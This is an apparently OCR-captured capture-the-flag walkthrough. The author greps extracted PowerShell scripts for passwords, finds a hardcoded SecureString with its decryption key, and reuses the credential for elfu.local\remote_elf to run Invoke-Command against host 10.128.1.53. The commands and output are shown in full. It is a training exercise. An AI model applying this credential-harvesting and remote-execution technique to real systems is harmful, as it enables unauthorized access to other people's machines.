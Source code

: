 ``` 
iuwuvckfvi@grades:~/test$ ls -l 
total 1320
-rw-rw---- 1 iuwuvckfvi iuwuvckfvi 1348096 Dec 29 22:27 test.tar
``` 
extract files from the tar archive
```
iuwuvckfvi@grades:~/test$ tar  -xvf test.tar 
./Get-NavArtifactUrl.ps1
./Get-WorkingDirectory.ps1
./Stop-EtwTraceCapture.ps1
./create-knownissue-function.ps1
........
``` 
searching "SecureString" with grep ..
```
$grep SecureString *ps1
``` 
nothing useful except the pass to get a letsencrypt certificate .. retry with  
``` 
$grep -i passw *ps1 
``` 
bingo .. 
```Powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate 
``` 

## powershell

let's run it in the powershell
```
iuwuvckfvi@grades:~/test$ powershell 
PowerShell 7.2.0-rc.1
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/iuwuvckfvi/test> $SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
PS /home/iuwuvckfvi/test> $aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
PS /home/iuwuvckfvi/test> $aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
PS /home/iuwuvckfvi/test> Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate 

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName                                                                     PSComputerName
 ------    -----      -----     ------      --  -- -----------                                                                     --------------
      9     4.31      10.09       0.00    1496   0 conhost                                                                         10.128.1.53
      9     6.52      12.20       0.05    7760   0 conhost                                                                         10.128.1.53
```